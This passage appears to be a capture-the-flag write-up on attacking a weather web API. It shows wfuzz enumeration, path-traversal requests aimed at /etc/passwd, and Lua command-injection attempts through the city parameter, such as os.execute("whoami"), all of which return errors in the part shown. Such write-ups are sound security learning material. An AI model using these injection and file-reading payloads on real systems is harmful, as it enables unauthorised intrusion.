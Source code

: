 Hum.... lets try a common list
```
cmd: wfuzz -c -w /opt/SecLists/Discovery/Web-Content/big.txt --sc 200,300,301,302 http://$IP/weather/FUZZ

000007819:   200        1 L      12 W       90 Ch       "forecast" 
```

Visiting /weather/forecast we got
```
"No city specified. Use 'city=list' to list available cities."
```

Visiting /weather/forecast?city=list we got
```
0	"London"
1	"Manchester"
2	"Birmingham"
3	"Leeds"
4	"Glasgow"
5	"Southampton"
6	"Liverpool"
7	"Newcastle"
8	"Nottingham"
9	"Sheffield"
10	"Bristol"
11	"Belfast"
12	"Leicester"
```

After verifying all the cities nothing really seemed "off" ... <br>

Tried several LFI commands and nothing
```
/weather/forecast?city=../../../../../../../etc/passwd
/weather/forecast?city=London;../../../../../../../etc/passwd
```

After alot of time, and without finding any information online for this (nor for the Medusa service) i asked for a nudge... <br>

Nudge: try '
```
REQUEST: /weather/forecast?city='
RESPONSE: <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
```

We can already see that is running lua <br>

Checking google for system commands execution (for lua)
```
os.execute (command)
```

Lets try to find a command to print something from the FS 
```
REQUEST: /weather/forecast?city='os.execute("whoami")
RESPONSE: <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
---------------------------------------------
REQUEST: /weather/forecast?city='os.execute("whoami")-- (the trailing -- in lua comment the rest of the line)
RESPONSE: <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
---------------------------------------------
REQUEST: /weather/forecast?city=']os.execute("whoami")-- 
RESPONSE: <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value

```
